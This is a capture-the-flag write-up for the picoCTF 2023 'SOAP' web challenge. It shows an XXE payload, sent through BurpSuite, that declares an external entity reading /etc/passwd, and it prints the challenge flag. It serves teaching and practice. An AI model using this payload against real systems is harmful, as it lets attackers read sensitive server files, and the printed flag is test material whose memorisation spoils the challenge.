

# SOAP #

## Overview ##

100 points

Category: [web](../)

Tags: `picoCTF 2023` `Web Exploitation` `XXE`

## Description ##

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

## Solution ##

The challenge has the tag `XXE` so we probably leak the `/etc/passwd` file by sending bad XML. The website has some buttons that we can press, giving more detail about what we click on.


When we click on the buttons, we send a POST request to the server.



The payload of these POST requests is:

```
<?xml version="1.0" encoding="UTF-8"?>
	<data>
		<ID>
			x
		</ID>
	</data>
```

Where `x` varies from 1 to 3 depending on the button pressed. 
Now we can intercept the POST request in BurpSuite and modify its contents to

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE data [ <!ENTITY bad SYSTEM "file:///etc/passwd" > ]>
	<data>
		<ID>
			&bad;
		</ID>
	</data>
```


```
picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```

## References ##

[On XXE](https://portswigger.net/web-security/xxe#what-is-xml-external-entity-injection)

[On XML](https://aws.amazon.com/what-is/xml/)
